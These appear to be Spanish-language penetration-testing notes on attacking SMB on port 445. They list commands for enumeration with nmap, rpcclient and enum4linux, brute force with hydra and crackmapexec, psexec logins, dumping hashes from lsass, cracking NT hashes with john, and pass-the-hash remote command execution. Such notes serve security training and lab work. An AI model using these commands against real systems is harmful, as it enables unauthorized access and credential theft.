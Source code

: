 # SMB/SAMBA (445)

Propietario: Adrian Gisbert Cabello

Scripts de NMAP para el puerto 445 (SMB):

- Ver los protocolos:	`nmap -p445 --script smb-protocols 192.168.X.X`
- Ver posibles credenciales:	`nmap -p445 --script smb-security-mode 192.168.X.X`
- Ver directorios: `nmap -p445 --script smb-enum-shares 192.168.X.X`
- Ver usuarios: `nmap -p445 --script smb-enum-users 192.168.X.X`
- Ver sesiones: `nmap -p445 --script smb-enum-sessions 192.168.X.X`
- `nmap -p445 --script smb-enum-shares --script-args smbusername=admninistrator,smbpassword=smbserver_771 192.168.X.X`

Para enumerar directorios y navegar a través de ellos podemos usar ***smbclient***:

- Entrar como usuario anónimo: `smbclient //192.168.X.X/anonymous`
- Ver directorios: `smbclient -N -L 192.168.X.X` | `crackmapexec smb 10.0.2.4 -u bogo -p bogo --shares`
- Para entrar en un directorio: `smbclient //192.168.X.X/nombre_directorio`s i nos pide contraseña podemos dejarla en blanco (si previamente hemos visto un usuario guest) )y si no la acepta hay que meter la credencial
- Para entrar en un directorio con un usuario: `smbclient //10.0.2.6/helios -U helios`

También podemos usar ***rpcclient***:

- Entrar mediante rpcclient: `rpcclient -U ¨¨ 192.168.X.X` Si no ponemos ningún nombre de usuario entre las comillas nos autentificaremos de manera anónima, dejando la contraseña en blanco.
- Entrar mediante rpcclient con una null session: `rpcclient -U “” 192.168.X.X -N`
- Ayuda: `help`
- Información del sistema: `srvinfo`
- Enumerar grupos: `enumdomgroups`
- Enumerar usuarios: `enumdomusers`
- Enumerar dominios: `enumdomains`
- Saber cuántos usuarios hay: `querydominfo`
- Enumerar redes: `netshareenumall`
- Saber el SID de un usuario: `lookupnames <nombre de usuario>`

Para entrar mediante fuerza bruta podemos usar crackmapexec:

- `crackmapexec smb 10.0.2.4 -u credentials.txt -p credentials.txt --continue-on-success`

La mejor manera para logearse por SMB es usando la herramienta ***psexec***, podemos hacerlo a través de terminal o a través de metasploit:

- A través de terminal: Localizamos la ruta del archivo [***psexec.py***](http://psexec.py) con el comando ***locate*** → `locate psexec.py` → una vez encontrado lo ejecutamos `/usr/share/doc/python3-impacket/examples/psexec.py (A/a)dministrator@192.168.X.X` Donde el administrator, podemos poner cualquier usuario → ponemos la contraseña
- A través de metasploit: Ejecutamos metasploit y buscamos: `search psexec type:exploit` → con el `show options` rellenamos los parámetros que nos pida el exploit
- Si estamos logeados a través de metasploit en una máquina windows, podemos usar el comando `hashdump`, si no funciona tenemos que migrar un proceso → `pgrep lsass` → `migrate 464` → `hashdump` → Copiamos el hash entero

- Para crackear el hash lo guardamos en un archivo ***hash.txt*** (por ejemplo), y mediante la herramienta ***john*** ponemos el siguiente comando: `john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt` ******(el formato, hay que poner el que tenga el hash)

También podemos usar ***enum4linux*** para TODA la información: `enum4linux -a 192.168.X.X` | `enum4linux 192.168.X.X`

- Para enumerar información autenticándose con un usuario: `enum4linux -a -u admin -p password 192.168.X.X`

Podemos ver que acciones puede hacer un usuario con privilegios root con ***smbmap***:		`smbmap -H 192.168.X.X -u ¨¨ -p ¨¨` (si no sabemos usuarios y contraseñas lo dejamos vacío)

- Para hacer un RCE con smbmap: `smbmap -H 192.168.X.X -u USUARIO -p CONTRASEÑA -x ‘COMANDO’` (por ejemplo ipconfig)
- Para descargar un archivo con smbmap: `smbmap -H IP -u USR -p PASS --download 'C$**\**flag.txt'`
- Para subir un archivo con smbmap: `smbmap -H IP -u USR -p PASS --upload '/home/kali/pwned.php' 'C$**\**pwned.php'`

Para hacer un ataque de fuerza bruta con ***hydra***: `hydra -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.X.X smb`

Para hacer un ataque de fuerza bruta con ***metasploit***: `msfconsole` → `search smb_login`

Para conectarnos mediante una sesión meterpreter con la técnica Pass-The-Hash Attack, y así pivotar a otro usuario sin tener credenciales en texto plano pero si en formato hash, abrimos metasploit y buscamos `search psexec`, y usamos el módulo `use exploit/windows/smb/psexec`

`set SMBUser Administrator`

`set SMBPass aadjrkv3fgdsjjkdbk584gd:e3cf5g89rtdsdfg5t5h5` (Password HASH)

`set target Command` (Para ver todos los targets `set target`) podemos usar `set target Native \upload`

Para subir un payload:

- Si queremos conectarnos a través de crackmapexec con el password hash: `crackmapexec smb 192.168.X.X -u Administrator -H ¨HASH¨`
- Podemos ejecutar comandos con el parámetro -x: `crackmapexec smb 192.168.X.X -u Administrator -H ¨HASH¨` `-x ¨ipconfig¨`